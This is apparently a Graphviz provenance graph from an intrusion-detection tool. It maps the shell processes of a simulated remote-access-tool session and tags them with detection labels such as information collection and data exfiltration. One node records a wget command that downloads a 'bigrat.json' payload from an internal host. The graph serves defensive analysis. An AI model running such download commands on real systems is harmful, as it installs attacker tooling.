 digraph graph1 {
node [shape = record];
table11 [label = "{<head>processname:  | pid: 1258 | cmdline:  | starttime: 0 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table2 [label = "{<head>processname:  | pid: 1236 | cmdline:  | starttime: 0 | enddtime: -1}"];
table0 [label = "{<head>processname:  | pid: 0 | cmdline:  | starttime: 0 | enddtime: -1}"];
table12 [label = "{<head>processname: bash | pid: 1259 | cmdline: -bash | starttime: 1618985500872000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500872000000}", color = red];
table80 [label = "{<head>processname: sftp-server | pid: 1296 | cmdline: /usr/lib/openssh/sftp-server | starttime: 1618985501092000000 | enddtime: -1 | label: PT10 Shell command.(rat) timestamp: 1618985501092000000}", color = red];
table79 [label = "{<head>processname:  | pid: 1295 | cmdline:  | starttime: 0 | enddtime: -1}"];
table20 [label = "{<head>processname:  | pid: 1262 | cmdline:  | starttime: 0 | enddtime: -1}"];
table13 [label = "{<head>processname: sh | pid: 1260 | cmdline: sh -c 2f7573722f62696e2f7861757468202d71202d | starttime: 1618985500776000000 | enddtime: 1618985500872000000 | label: PT10 Shell command.(rat) timestamp: 1618985500776000000}", color = red];
table47 [label = "{<head>processname: bash | pid: 1283 | cmdline: -bash | starttime: 1618985500900000000 | enddtime: 1618985500912000000 | label: PT10 Shell command.(rat) timestamp: 1618985500900000000}", color = red];
table64 [label = "{<head>processname: bash | pid: 1285 | cmdline: -bash | starttime: 1618985500948000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500948000000}", color = red];
table72 [label = "{<head>processname: bash | pid: 1291 | cmdline: -bash | starttime: 1618985500960000000 | enddtime: 1618985500968000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500960000000}", color = red];
table75 [label = "{<head>processname: bash | pid: 1293 | cmdline: -bash | starttime: 1618985500976000000 | enddtime: 1618985500980000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500976000000}", color = red];
table84 [label = "{<head>processname: bash | pid: 1297 | cmdline: -bash | starttime: 1618985507140000000 | enddtime: 1618985507140000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985507140000000}", color = red];
table86 [label = "{<head>processname: ls | pid: 1298 | cmdline: ls --color=auto | starttime: 1618985507672000000 | enddtime: 1618985507676000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985507672000000}", color = red];
table87 [label = "{<head>processname: wget | pid: 1299 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985521583000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985521583000000 | label: PT1 The process has network connections. timestamp: 1618985521583000000}", color = red];
table18 [label = "{<head>processname: xauth | pid: 1261 | cmdline: /usr/bin/xauth -q - | starttime: 1618985500776000000 | enddtime: 1618985500872000000 | label: PT10 Shell command.(rat) timestamp: 1618985500776000000}", color = red];
table48 [label = "{<head>processname: ls | pid: 1284 | cmdline: ls /etc/bash_completion.d | starttime: 1618985500900000000 | enddtime: 1618985500912000000 | label: PT10 Shell command.(rat) timestamp: 1618985500900000000}", color = red];
table65 [label = "{<head>processname: lesspipe | pid: 1286 | cmdline: /bin/sh /usr/bin/lesspipe | starttime: 1618985500948000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500948000000}", color = red];
table73 [label = "{<head>processname: dircolors | pid: 1292 | cmdline: dircolors -b | starttime: 1618985500964000000 | enddtime: 1618985500968000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500964000000}", color = red];
table76 [label = "{<head>processname: ls | pid: 1294 | cmdline: ls /etc/bash_completion.d | starttime: 1618985500976000000 | enddtime: 1618985500980000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500976000000}", color = red];
table67 [label = "{<head>processname: basename | pid: 1287 | cmdline: basename /usr/bin/lesspipe | starttime: 1618985500948000000 | enddtime: 1618985500952000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table69 [label = "{<head>processname: lesspipe | pid: 1288 | cmdline: /bin/sh /usr/bin/lesspipe | starttime: 1618985500952000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table70 [label = "{<head>processname: dirname | pid: 1290 | cmdline: dirname /usr/bin/lesspipe | starttime: 1618985500956000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table11 -> table12: head;
table2 -> table11: head;
table0 -> table2: head;
table0 -> table20: head;
table12 -> table13: head;
table12 -> table47: head;
table12 -> table64: head;
table12 -> table72: head;
table12 -> table75: head;
table12 -> table84: head;
table12 -> table86: head;
table12 -> table87: head;
table79 -> table80: head;
table20 -> table79: head;
table13 -> table18: head;
table47 -> table48: head;
table64 -> table65: head;
table72 -> table73: head;
table75 -> table76: head;
table65 -> table67: head;
table65 -> table69: head;
table69 -> table70: head;
}
